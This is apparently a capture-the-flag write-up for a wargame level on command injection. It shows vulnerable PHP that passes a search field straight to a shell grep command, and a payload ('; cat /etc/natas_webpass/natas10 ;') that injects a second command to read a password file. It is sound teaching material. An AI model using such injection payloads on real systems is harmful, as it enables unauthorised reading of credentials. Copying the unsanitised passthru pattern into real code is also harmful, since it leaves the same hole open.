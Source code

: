# Level 9
This level deals with command injection.

## Quest
We are present with a search box. I type `hello` in searchbox and get the following output.

![Level 9 Image](./images/Level9.png)

The backend PHP code is below, Lets comment it
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {   // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];               // If its there, assign it to var $key
} 

if($key != "") {                              // If key is not empty
    passthru("grep -i $key dictionary.txt");  // use it to run a shell command (Bad Practise!)
}
?>
```

## Solution
From the above code, we can see that user input is passed to OS command without any sanitization, this code should be vulnerable to command injection.<br/>
Our goal is to get password for the next level, i.e. access  `/etc/natas_webpass/natas10` .

Our payload         `; cat /etc/natas_webpass/natas10 ;`   -> Terminate the `grep` command with `;` and view file and terminate it with `;` again

As evident from below screenshot, this gets us password for next Level.

![Level 9 Solution](./images/Level9_solution.png)

### How the payload works
```shell
# If user input is "hello", following command gets executed
grep -i hello dictionary.txt          # Searches dictionary.txt for word hello and displays output

# Now if we put our payload, command becomes
grep -i <span id="yellow">; cat /etc/natas_webpass/natas10 ;</span> dictionary.txt           # See how ; terminates command
```
